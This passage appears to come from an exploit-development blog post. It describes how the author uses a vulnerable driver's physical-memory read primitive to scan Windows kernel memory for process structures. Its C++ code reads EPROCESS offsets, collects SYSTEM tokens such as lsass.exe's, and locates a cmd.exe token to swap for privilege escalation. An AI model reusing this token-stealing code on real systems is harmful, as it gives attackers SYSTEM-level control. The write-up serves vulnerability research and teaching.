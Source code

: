 ```cpp
        }
```

It will be more obvious with the entire exploit code, but what I'm doing here is basically starting from a physical address, and calling our read what where with a read size of `0x100c` (`0x1000` + `0xc` as required so we can capture a whole page of memory and still keep our returned metadata information that starts at offset `0xc` in our output buffer) in a loop all the while adding these discovered `PROC_DATA` structures to a vector. Once we hit our max address or max iterations, we'll send this vector over to a second routine that parses out all the data we care about like the `EPROCESS` members we care about. 

**It is important to note that I took great care to make sure that all calls to `MmMapIoSpace` used page-aligned physical addresses as this is the most stable way to call the API**

Now that I knew exactly how many `"Proc"` chunks I had found and stored all their relevant metadata in a vector, I could start a second routine that would use that metadata to check for their `EPROCESS` member values to see if they were processes I cared about.

My strategy here was to find the `EPROCESS` members for a privileged process such as `lsass.exe` and swap its security token with the security token of a `cmd.exe` process that I owned. You can see a portion of that code here:
```cpp
INT64 results_begin = ((INT64)output_buff + 0xc);

        INT64 imagename_address = results_begin +
            proc_data.header_size[i] + proc_data.page_entry_offset[i]
            + 0x450; //ImageFileName
        INT64 imagename_value = *(PINT64)imagename_address;

        INT64 proc_token_addr = results_begin +
            proc_data.header_size[i] + proc_data.page_entry_offset[i]
            + 0x360; //Token
        INT64 proc_token = *(PINT64)proc_token_addr;

        INT64 pid_addr = results_begin +
            proc_data.header_size[i] + proc_data.page_entry_offset[i]
            + 0x2e8; //UniqueProcessId
        INT64 pid_value = *(PINT64)pid_addr;

        int sys_result = count(SYSTEM_procs.begin(), SYSTEM_procs.end(),
            imagename_value);

        if (sys_result != 0) {

            system_token_count++;
            system_tokens.token_name.push_back(imagename_value);
            system_tokens.token_value.push_back(proc_token);
        }

        if (imagename_value == 0x6578652e646d63) {
            //cout << "[>] cmd.exe found!\n";
            cmd_token_address = (start_address + proc_data.header_size[i] +
                proc_data.page_entry_offset[i] + 0x360);
        }
    }

    if (system_tokens.token_name.size() != 0 and cmd_token_address != 0) {
        cout << "\n[>] cmd.exe and SYSTEM token information found!\n";
        cout << "[>] Let's swap tokens!\n";
    }
    else if (cmd_token_address == 0) {
        cout << "[!] No cmd.exe token address found, exiting...\n";
        exit(1);
    }
```
